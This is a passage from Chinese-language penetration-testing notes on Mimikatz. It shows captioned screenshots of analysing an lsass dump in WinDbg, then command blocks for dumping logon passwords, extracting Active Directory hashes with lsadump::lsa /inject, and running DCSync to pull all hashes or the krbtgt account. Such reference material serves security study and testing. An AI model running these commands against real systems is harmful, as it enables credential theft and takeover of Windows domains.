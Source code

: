 ![](../../../assets/img/Security/安全工具/mimikatz/7.png)

windbg 中载入 mimilib 模块

![](../../../assets/img/Security/安全工具/mimikatz/8.png)

查找 lsass 进程

![](../../../assets/img/Security/安全工具/mimikatz/9.png)

将镜像 lsass 环境转换到本机中

![](../../../assets/img/Security/安全工具/mimikatz/10.png)

载入 mimikatz

![](../../../assets/img/Security/安全工具/mimikatz/11.png)

---

# NTDS.DIT

使用 Mimikatz 提取 Active Directory hash
```bash
privilege::debug
mimikatz lsadump::lsa /inject exit
sekurlsa::minidump c:\temp\lsass.dmp      使用 Mimikatz 转储 LSASS 内存
sekurlsa::logonpasswords
```

**DCSync**

Mimikatz 有一个功能（dcsync），利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码哈希值。该技术消除了直接从域控制器进行认证的必要性，因为它可以从域管理员环境中属于域的任意系统执行。

运行 DCSync 需要特殊权限。管理员，域管理员或企业管理员以及域控制器计算机帐户的任何成员都能够运行 DCSync 来提取密码数据。请注意，只读域控制器不仅可以默认为用户提取密码数据。
```bash
privilege::debug
lsadump::dcsync /domain:ffffffff0x.com /all /csv
```

通过使用 /user 参数指定域用户名，Mimikatz 会将该指定用户的所有帐户信息转储包括哈希值。
```bash
lsadump::dcsync /domain:ffffffff0x.com /user:krbtgt
lsadump::dcsync /domain:ffffffff0x.com /user:test
```

可以直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 密码哈希
```bash
privilege::debug
lsadump::lsa /inject
```

---

# PTH
